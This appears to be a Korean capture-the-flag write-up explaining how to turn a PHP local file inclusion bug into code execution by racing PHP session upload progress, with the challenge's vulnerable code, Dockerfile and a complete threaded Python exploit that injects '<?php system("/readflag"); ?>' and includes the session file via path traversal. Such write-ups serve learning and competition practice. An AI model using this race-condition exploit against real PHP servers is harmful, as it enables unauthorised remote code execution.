 # 접근 방법
## 1. www.conf확인
`php_admin_value[session.upload_progress.enabled] = 1` PHP는 업로드 진행 상황을 추적할 수 있게 해준다. 이 기능을 보고 갈피를 잡았다.
`session.upload_progress.cleanup` 의 기본 값은 1이다, session.upload_progress.cleanup이 켜져 있는 경우, 모든 POST 데이터를 읽는 즉시 진행률 정보를 정리하기 때문에 빈 배열이 표시된다. 이를 막기 위하여 Race condition을 사용하여야한다.

## 2. 폴더 구조 확인
```php
<?php
    $page = $_GET['page'];
    if(isset($page)){
        include("./data/".$page);
    } else {
        header("Location: /?page=1");
    }
?>
```
```Dockerfile
FROM debian:bullseye

RUN DEBIAN_FRONTEND=noninteractive apt-get update && \
    apt-get install -y \
        nginx \
        php-fpm \
        libzip-dev \
        php-zip \
    && rm -rf /var/lib/apt/lists/

RUN rm -rf /var/www/html/*
COPY config/default /etc/nginx/sites-enabled/default
COPY config/www.conf /etc/php/7.4/fpm/pool.d/www.conf

COPY flag.txt config/readflag /
RUN chown 0:1337 /flag.txt /readflag && \
    chmod 040 /flag.txt && \
    chmod 2555 /readflag

COPY src /var/www/html/

RUN ln -sf /dev/stdout /var/log/nginx/access.log && \
    ln -sf /dev/stderr /var/log/nginx/error.log

RUN find / -ignore_readdir_race -type f \( -perm -4000 -o -perm -2000 \) -not -wholename /readflag -delete
USER www-data
RUN (find --version && id --version && sed --version && grep --version) > /dev/null
USER root

EXPOSE 80
CMD /etc/init.d/php7.4-fpm start && \
    nginx -g 'daemon off;'
```
- COPY src /var/www/html/를 보고 /var/www/html/가 웹의 루트 디렉토리라는걸 확인
```
/ (root)
  ├── var
  │   ├── lib
  │   │   └── php
  │   │       └── sessions
  └── www
      └── html
          └── (current directory)
```
1. /var/www/html/data에서 시작
> php 코드에서 /data위에서 실행을 한다
- ../->/var/www/data</br>
- ../->/var/www</br>
- ../->/var</br>
- ../->/</br>
    
2. 세션 진행사항 추적 경로 확인</br>
/var/lib/php/sessions/sess_{PHPSESSID}

## 3. 익스플로잇 코드 구성
익스플로잇 코드의 로직은 다음과 같다
1. 세션 파일로 /readflag를 실행하는 코드를 작성한다
2. 세션 파일은 지워지기 때문에 위에 코드를 무한히 반복한다
3. 동시에 /?page=/../../../../var/lib/php/sessions/sess_{PHPSESSID}를 읽어, 진행률 정보가 삭제되기 전에 읽기를 시도한다

## 4. 핵심코드 설명
```python
res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})
```
`'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>')`</br>
PHP_SESSION_UPLOAD_PROGRESS을 이용해 진행률 정보를 추적한다, 기본적으로 파일 데이터의 형태는 다음과 같은 튜플의 형태이다</br>
`{'field_name': (filename, filecontent, contenttype, headers)}`</br>
filename에 문자열이 들어올 경우, 세션 파일이 아닌 파일 처리 로직을 따라가기 때문에, PHP_SESSION_UPLOAD_PROGRESS를 통해 추적할 수 없다, 따라서 None으로 두었다 따라서 filecontent만 전달되게 된다</br>
filecontent는 php내용으로 업로드되서 실행되게 된다 이 실행내용은 PHP_SESSION_UPLOAD_PROGRESS를 통해 기록된다</br>
`'file': ('test', 'asdf')`</br>
파일 업로드 요청시에 file필드가 비어있는 경우, 서버가 이를 유효한 요청으로 인식하지 않고, 무시하게 된다. 따라서 아무거나 넣어줬다

# 익스플로잇 코드
```py
import threading
import requests

url = "http://apb2023.cstec.kr:8000"

def session1():
    while True:
        query = url + "/?page=../../../../var/lib/php/sessions/sess_test"
        res = requests.get(query)
        if len(res.text) != 0:
            print(res.text)
            exit()

def session2():
    while True:
        res = requests.post(url, files={
            'PHP_SESSION_UPLOAD_PROGRESS': (None, '<?php system("/readflag"); ?>'),
            'file': ('test', 'asdf')
        }, cookies={'PHPSESSID': 'test'})

threading.Thread(target=session1).start()
threading.Thread(target=session2).start()
```
